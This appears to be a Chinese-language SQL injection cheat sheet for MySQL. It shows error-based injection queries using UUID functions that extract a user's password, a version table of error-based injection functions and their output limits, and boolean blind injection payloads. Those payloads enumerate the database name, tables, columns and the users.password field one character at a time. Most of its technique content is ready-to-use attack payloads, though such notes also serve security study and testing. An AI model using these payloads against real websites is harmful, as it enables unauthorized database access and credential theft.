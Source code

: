 ### UUID相关函数
适用版本：8.0.x
参数格式不正确。
```sql
mysql> SELECT UUID_TO_BIN((SELECT password FROM users WHERE id=1));
mysql> SELECT BIN_TO_UUID((SELECT password FROM users WHERE id=1));
```


### 报错函数速查表

注：默认MYSQL_ERRMSG_SIZE=512

| 类别 | 函数 | 版本 | 5.5.x | 5.6.x | 5.7.x | 8.x | 显错长度 | 报错内容长度 | 额外限制 |
|------|-----|----------|------|-------|--------|------|-----------|--------------|----------|
| 主键重复|	floor round	| ❓ | ✔️ |✔️  |    ✔️  |     | 64          |         | data_type ≠ varchar |
|列名重复| name_const| ❓ |  ✔️ |     ✔️ |✔️ |   ✔️  |            |         | only version() |
|列名重复| join	 | [5.5.49, ?)| ✔️	 |✔️	|✔️	 |✔️	|       |        |      only columns |
| 数据溢出 - Double	| 1e308 cot exp pow	|[5.5.5, 5.5.48]|✔️| | | | | MYSQL_ERRMSG_SIZE | |
| 数据溢出 - BIGINT	| 1+~0 | [5.5.5, 5.5.48] | ✔️| | | | | MYSQL_ERRMSG_SIZE |  |
| 几何对象	| geometrycollection linestring multipoint multipolygon multilinestring polygon	| [?, 5.5.48] | ✔️	| | | |244 | |
空间函数 Geohash | ST_LatFromGeoHash ST_LongFromGeoHash ST_PointFromGeoHash	|  [5.7, ?)	| | |  ✔️ | ✔️	| 128 | | |
|GTID	| gtid_subset gtid_subtract	| [5.6.5, ?) | | ✔️	|✔️	|✔️	 |200| | |
|JSON	| json_*	| [5.7.8, 5.7.11]	| | | ✔️| | 200| | |
|UUID| uuid_to_bin bin_to_uuid	| [8.0, ?)	| | | | ✔️	| 128| | |
|XPath | extractvalue updatexml	| [5.1.5, ?)	| ✔️| ✔️| ✔️| ✔️ | 32 | | |

以上来源：[对MYSQL注入相关内容及部分Trick的归类小结](https://xz.aliyun.com/t/7169#toc-28)
<br/>

## 盲注
盲注分为两种：布尔盲注和时间盲注。当页面没有回显时，可以使用盲注来获取数据。但是盲注是一个字一个字的进行判断，比较消耗时间，所以需要编写二分法的脚本加快获取数据的速度，如果是时间盲注则需要额外的时间来判断。

### 布尔盲注
当提交的数据出现正确或错误两种不同的页面时，就可以采用布尔盲注。根据页面返回情况和匹配数据的每个字符的ascii码，逐个将信息破解
相关函数：
- ascii() 字符转化成ascii码
- substr() 字段的截取
- length() 返回字符串长度

```sql
ascii(substr(database(),1,1))>114  --+ 判断数据库第一个字符的ascill码是否大于114

ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>100 --+ 判断该表的第一个字符是否大于100

ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))>120 --+ 判断users表中第一个字段的第一个字符是否大于120

ascii(substr(( select password from users limit 0,1),1,1))>68 --+ 判断password的第一个字符是否大于68
```
